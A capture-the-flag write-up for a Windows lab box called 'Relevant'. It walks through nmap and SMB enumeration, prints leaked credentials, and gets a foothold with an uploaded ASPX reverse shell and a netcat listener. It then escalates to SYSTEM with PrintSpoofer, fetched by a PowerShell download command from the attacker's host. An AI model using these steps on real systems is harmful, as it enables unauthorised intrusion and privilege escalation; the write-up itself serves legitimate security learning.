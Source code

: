 # Relevant 

##### Difficulty: [ Medium ]

**Tags:** `Windows`,  `nmap`,  `smb`,  `Gobuster`,  `Wappalyzer`,  `reverse shell`,  `token impersonation`,  `PrintSpoofer`

---

##### Written: 23/10/2021

##### IP address: 10.10.72.53

---

### [ User Flag ]

We first start off with a basic **nmap** scan on the target machine. This will only target the top 1000 ports.

```
sudo nmap -sC -sV -vv 10.10.72.53
```

**Results:**

<img style="float: left;" src="screenshots/screenshot1.png">

From the results, we can see that the following ports are open:

**Port 80** - HTTP Web server

**Port 135** - Windows RPC

**Port 139** - SMB Server

**Port 445** - SMB Server

**Port 3389** - Microsoft Terminal Services

<br>

Let's first take a look at the HTTP server.

<img style="float: left;" src="screenshots/screenshot2.png">

Doing some manual enumeration of the website, I was unable to find anything of interest. The enumeration included checking of the source code and other low-hanging fruit such as the robots.txt file. Clickable elements within the webpage also only brought us to other websites that were not of use to us.

Next, I tried running a **Gobuster** directory scan on the website, but unfortunately I was unable to find any hidden directories.

<br>

Hitting a dead end, I decided to move on to enumerating the Samba server that is running on port 139 and 445.

At first, I tried to use a Samba enumeration tool called **enum4linux**, but it was unable to scan the server.

``` 
enum4linux 10.10.72.53
```

<img style="float: left;" src="screenshots/screenshot3.png">

<br>

Next, I tried using **smbclient** to list out the shares that were accessible on the server. This can be done with the `-L` tag.

```
smbclient -L 10.10.72.53
```

<img style="float: left;" src="screenshots/screenshot4.png">

Nice! Looks like there are a few shares that we can potentially log into if they have **anonymous access** enabled. I tried to log into all of the shares, but the only shares that I could successfully log into were the **IPC$** and **nt4wrksv** shares.

---

*Note: While enum4linux did not work, we can alternatively use nmap to run a smb enumeration scan on our target. The command is:*

``` 
nmap --script smb-enum-shares.nse -p445 <host>
```

---

While the **IPC$** share did not contain anything, the **nt4wrksv** share actually contained a **passwords.txt** file.

<img style="float: left;" src="screenshots/screenshot5.png">

<br>

I downloaded the text file onto my local machine. The contents are:

<img style="float: left;" src="screenshots/screenshot6.png">

Looks like the text file contained user passwords that were **base64-encoded**. After decoding them, we get the following user credentials:

* **Bob: !P@$$W0rD!123**

* **Bill: Juw4nnaM4n420696969!$$$**

With these credentials, I tried to log into the other Samba shares, but unfortunately they did not work. I also tried to log into the RDP service, but that was to no avail as well.

<br>

Hitting yet another dead end, I decided to run a **full nmap** scan. Perhaps there are other ports open on the machine that were not detected initially.

```
sudo nmap -sC -sV -vv -p- -T4 --defeat-rst-ratelimit 10.10.72.53
```

*The -T4 and the --defeat-rst-ratelimit tags are used to speed up the nmap scan greatly. We would not use these settings in a real-world application as it is very noisy. However, since we are scanning within a controlled CTF environment, we can go wild :)*

**Results:**

<img style="float: left;" src="screenshots/screenshot7.png">

Apart from the ports that we scanned earlier, there are now 3 new open ports that were detected:

**Port 49663** - Another HTTP server

**Port 49667** - Windows RPC

**Port 49669** - Windows RPC

<br>

What caught my attention was the HTTP server running on port **49663**. Let's take a look:

<img style="float: left;" src="screenshots/screenshot8.png">

This brings us to the same webpage as before.

However, running a **Gobuster** directory scan this time reveals a subdirectory called **/nt4wrksv**!

---

*Note: The **/nt4wrksv** entry is actually located at the very bottom of the dirbuster medium directory wordlist. Hence, I had to wait for Gobuster to completely go through the wordlist before it managed to detect this subdirectory! This was a lesson on patience as I would have normally assumed that there were no more potential results once Gobuster had gone through about half of the wordlist, and would have stopped the scan. Fortunately, I let Gobuster finish the scan this time.*

---

<img style="float: left;" src="screenshots/screenshot9.png">

As this directory has the same name as the Samba share from earlier, I assumed that directory is actually bringing us to the  share itself.

To test this, I tried visiting **/nt4wrksv/passwords.txt**:

<img style="float: left;" src="screenshots/screenshot10.png">

Sure enough, the passwords.txt file in the SMB share was displayed! This is great as that means we can potentially obtain RCE by uploading a file into the share and accessing it via the webpage. With this, we can open up a reverse shell and gain a foothold into the target machine.

<br>

<img style="float: left;" src="screenshots/screenshot11.png">

Using **Wappalyzer** on the main webpage, I found out that the framework that was being used was **Microsoft ASP.NET**. As such, we will have to upload an **ASPX reverse shell** file. I found such a file here: https://github.com/borjmz/aspx-reverse-shell

Using `smbclient`, I then uploaded the reverse shell into the **nt4wrksv** share. 

<img style="float: left;" src="screenshots/screenshot12.png">

Once that was done, I opened up a netcat listener and opened the reverse shell by accessing **/nt4wrksv/shell.aspx**.

<img style="float: left;" src="screenshots/screenshot13.png">

And we're in!

<br>

With that, we can obtain the user flag that is located in the **Desktop** of the user **Bob**:

<img style="float: left;" src="screenshots/screenshot14.png">

---

### [ Root Flag ]

Next, we have to find a way to escalate our privileges. Let's first check out the privileges that are enabled on our current account. We can do this with the `whoami /priv` command:

<img style="float: left;" src="screenshots/screenshot15.png">

Interesting! Looks like we have the **SeImpersonatePrivilege** privilege enabled. With this privilege enabled, we can use the **PrintSpoofer** tool to escalate our privileges. (https://github.com/dievus/printspoofer)

*More information on how PrintSpoofer works can be found here: https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/*

<br>

We upload the PrintSpoofer tool onto our target machine by using Powershell to download it from a Python HTTP server that we have set up on our local machine. The command to download the tool is:

```
powershell "Invoke-WebRequest -UseBasicParsing <YOUR_IP_HERE>/PrintSpoofer.exe -OutFile PrintSpoofer.exe"
```

Once the tool is downloaded, we can simply run it with:

```
.\PrintSpoofer.exe -i -c cmd 
```

This will open up a cmd prompt with root privileges.

<img style="float: left;" src="screenshots/screenshot16.png">

And we have successfully escalated our privileges! With that, we can obtain the root flag that is located in the **Desktop** of the **Administrator** account:

<img style="float: left;" src="screenshots/screenshot17.png">

